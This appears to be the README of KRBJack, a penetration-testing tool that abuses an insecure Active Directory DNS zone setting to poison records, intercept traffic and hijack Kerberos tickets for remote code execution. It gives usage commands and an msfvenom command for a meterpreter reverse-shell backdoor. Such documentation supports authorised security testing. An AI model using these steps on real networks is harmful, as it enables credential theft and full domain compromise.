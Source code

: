 # KRBJack

This tool can be used to abuse the dangerous `ZONE_UPDATE_UNSECURE` flag on DNS main domain zone in an Active Directory. This flag when set allows anyone unauthenticated to update, add and remove DNS records anonymously. It is quite common to see it during engagements as it is required to get some DHCP servers working with non-windows based systems, to get them update their own records. Even though this flag is extremely dangerous, I've never seen any tool to ease its exploitation. What I wanted to build is a mean to perform Man-in-the-Middle based on this dangerous flag, grab credentials and use them directly to own systems or the entire active directory services (though multiple tools can be used together to perform ntlm relay for example).

The benefit from using this technique of man in the middle is that it goes through routers, as the "official" DNS records are poisonned. If proper routing is set (and if no firewall rule prevents it), someone on another broadcast domain can be targeted (unlike ARP poisoning which only works on you broadcast domain).

Moreover I made the choice to perform fully functionnal AP_REQ hijacking to allow compromission of systems using kerberos instead of NetNTLM.

# Install

```bash
sudo python -m pip install krbjack
```

You do need to install the tool with root rights as it will need to be runnable by root to listen to privileged ports. Alternatively you can have fun with virtual envs. Alternatively you can download this repo and use `poetry` to install it.

# Usage

`sudo krbjack --target-name <targetNBTName> [--target-ip <targetIP>] --domain <domainName> --dc-ip <domainControlerIpAddress> --ports <port1,port2,port3,...> --executable <executable.exe>`

- `--target-name` : The netbios name of your target, the one you will impersonate, the one you want will pwn if successful. Example : `winserv2`;
- `--target-ip` : You might want to specify the IP address of your target. The alternative is to let this tool query the DNS to get its IP addresses. A quick naive scan is performed to choose one IP from the ones returned by the DNS though this method is flawed. Example: `192.168.42.20`;
- `--domain` : The domain name to which your target is joined. Example : `windomain.local`;
- `--dc-ip` : The IP address of the domain controller you will be poisoning DNS records. Can be any domain controller as the DNS zones will be replicated automatically. Example : `192.168.42.10`;
- `--ports` : A list of TCP ports which will be open on your attacker's machine to forward traffic to your target. This list is *very* important because if you omit one port which is open on the legitimate service (your target), clients wont be able to access it during the time of the attack. Setting this list of ports correctly is the key to perform the attack without doing to much of a mess in the network. Example : `135,139,445,80,443,8080`
- `--executable <executable.exe>` : The path to an executable on your attacker's machine. This executable will be uploaded and executed psexec-style on your target if the attack succeeds. Example : `/home/almandin/metx64revtcp.exe`.

    The executable you provide can be either a "standard" executable, or a windows service executable (better). If it is a "standard" executable, windows will kill it when running after a few seconds if it has not ended already, because as it is run as a service, Windows expects it to do proper signaling (behave as a true service). Though it still works, you might want to migrate quickly your meterpreter when the session is established.

    If you use a windows service executable, you're good to go, nothing to add here. You can generate such executables with msfvenom with the `exe-service` format:

        msfvenom -f exe-service -o backdoor.exe -p windows/x64/meterpreter/reverse_tcp LHOST=X LPORT=Y

**Additionnal flags :**

- `--check` : Used to performs no attack at all, just to check if the DNS zone is vulnerable.
- `--no-poison` : Can  be used to set all the mess in place but prevent DNS poisoning from being done. Just in case you managed to poison DNS yourself or if you found another way to point clients to you instead of the legitimate service.

## What are the requirements for this to work ?

First you need to check if the domain you are testing is vulnerable to the main misconfiguration : `ZONE_UPDATE_UNSECURE`. For this you can use external tools such as PingCastle, or let Krbjack do it with the addition of the `--check` flag on the command line.

At the moment this tool only works for systems that do not require SMB Signing. This is a current limitation as the exploited service is SMB for the time being. It means that you cannot target domain controllers most of the time as they have been requiring SMB signing by default for a long time.

## What are the risks of using this tool ?

Just like any other man in the middle attack, you will be receiving connections from any client requesting an access to any service of your target. This means that it can be CPU intensive if the targetted system is highly used.

Moreover, this tool performs live packet inspection on fully-connected TCP streams. Clients DO connect to you before being redirected to the legitimate service. Because of how Kerberos works, it will block some specific connections from behaving correctly as service tickets will be used on the clients' behalf, having the effect to be "consumed" (kerberos tickets cannot be replayed). It means that this tool will make network connection a bit unreliable for every new connection with an interesting AP_REQ in it (AP_REQ for SMB services to our target). HOWEVER, a whitelist is in place to prevent complete blocking of connections. If a client comes several times, only the first AP_REQ will be hijacked. Either it was successful and you pwned your target, or it was not and the client is added to the whitelist to prevent it from being checked again and blocked multiple times. Moreover, other services will still be served and be working correctly thanks to proper forwarding "à la" ssh port forwarding, thoug it might induce lag and delays because of network packets processing on the attacker machine.

## How does it works ?

First the man in the middle is put in place by changing DNS records attached to your target. It abuses the DNS misconfiguration to say `"hey, now myLegitService is now at <attacker's IP>"`. This way, everyone trying to reach the legitimate service will now reach to you instead. The DNS records are also kept poisoned by checking regularly if they have been set back to the right ones (a server or computer might have reboot, or updated a record while the attack was beeing performed).

In the meantime, the tool starts multithreaded TCP servers to mimick your target TCP services. It starts to serve SMB, HTTP, whatever service you state in the command line. It does so just like an SSH port forwarding : when you reach to the attacker's started services, krbjack initiates connection to the true legitimate service on the same port, and forwards every packet from the legitimate client, to the legitimate service. This way, a full man in the middle is performed both ways, this prevents traffic from being completely blocked.

When the man in the middle is performed, every single packet is inspected to find kerberos AP_REQ packets (containing what's necessary to authenticate to services) or other authenticating packets. When such a packet/ticket is found to be sent from a client, it is used in real time to connect to the legitimate service *on behalf* of the legitimate client. This way krbjack can perform authenticated stuff to the legitimate service. At the moment only SMB is supported, meaning that krbjack performs authenticated SMB actions at this time of the attack workflow. It then uses this authenticated channel to check if the legitimate client was an administrator (tries to list directory ADMIN$ - C:\Windows). If it happens that the client was an administrator, man in the middle is stopped, DNS records are fixed ant it then uses the very same authenticated channel to perform a full psexec.

Krbjack also modifies packets on-the-fly depending on the protocol to remove security flags when possible (SMB flags "signing required", "supported" etc... though it is quite naive for the time being).

# Acknowledgements

Project Zero :
- https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html
- https://googleprojectzero.blogspot.com/2021/10/windows-exploitation-tricks-relaying.html

Impacket :
- https://github.com/fortra/impacket

# Todo

- Find a way to reset kerberos authentications such a way that clients can retry instantly to authenticate when we steal their tickets. I found that windows is quite sensible to failures and tend not to retry authentications when something goes wrong. Maybe answer with an `KRB_AP_ERR_TKT_EXPIRED` could have the expected effect.
- Make it work against LDAP as it does not require signing by default AND allows for full domain compromise by adding a new domain admin.
- Implement ntlm relaying altogether maybe ? So that this tool would be self-sufficient in case `ZONE_UPDATE_UNSECURE` is availabe. Multiple modules could be used at the same time, allowing one to run the first module available for an interesting packet.
- Allow to disable the whitelist mechanism completely as it might be a problem when computer accounts connect first, then a user account is used on that computer. In this configuration (which could happen quite often) there is a risk that only computer accounts owned tickets are tried and not user owned tickets.

# Disclaimer

This tooling is made only for legal penetration testing and not for any other use. I am not responsible for how it is used by anyone or if it is used to penetrate systems without permission or proper contractual agreements. It is provided as is and without warranty of any sort.